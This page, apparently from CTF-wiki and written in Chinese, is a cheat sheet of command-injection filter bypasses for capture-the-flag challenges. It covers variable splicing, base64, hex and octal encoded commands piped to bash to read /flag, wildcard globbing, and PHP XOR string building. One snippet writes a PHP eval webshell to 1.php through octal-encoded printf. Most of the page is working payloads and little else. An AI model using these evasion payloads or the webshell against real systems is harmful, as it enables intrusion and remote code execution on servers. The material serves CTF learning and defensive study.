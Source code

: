 # linux绕过姿势
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/).



拼接绕过


```plain
#执行ls命令：
a=l;b=s;$a$b
#cat flag文件内容：
a=c;b=at;c=f;d=lag;$a$b${c}${d}
#cat test文件内容
a="ccaatt";b=${a:0:1}${a:2:1}${a:4:1};$btest
Plain Text
```



编码绕过








```plain
#base64
echo "Y2F0IC9mbGFn"|base64 -d|bash ==>cat /flag
echo Y2F0IC9mbGFn|base64 -d|sh==>cat /flag
#hex
echo "0x636174202f666c6167" | xxd -r -p|bash ==>cat /flag
#oct/字节
$(printf "\154\163") ==>ls
$(printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67") ==>cat /flag
{printf,"\x63\x61\x74\x20\x2f\x66\x6c\x61\x67"}|\$0 ==>cat /flag
也可以通过这种方式写马
内容为php @eval($_POST['c']);?>
${printf,"\74\77\160\150\160\40\100\145\166\141\154\50\44\137\120\117\123\124\133\47\143\47\135\51\73\77\76"} >> 1.php。

Plain Text
```



正则匹配


```plain
cat t?st
cat te*
cat t[a-z]st
cat t{a,b,c,d,e,f}st
Plain Text
```



异或绕过（linux可以这么用，但这里应该不是linux）


```plain
var_dump('#'^'|'); //得到字符 _
var_dump('.'^'~'); //得到字符 P
var_dump('/'^'`'); //得到字符 0
var_dump('|'^'/'); //得到字符 S
var_dump('{'^'/'); //得到字符 T
$__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/"); //变量$__值为字符串'_POST'
Plain Text
```



```plain
#给出脚本if __name__ == "__main__":
for i in range(0,127):
for j in range(0,127):
result=i^j
if(chr(result) is '想要的字符'):
print(' '+chr(i)+' xor '+chr(j)+' == '+chr(result))缩进自己来
Plain Text
```





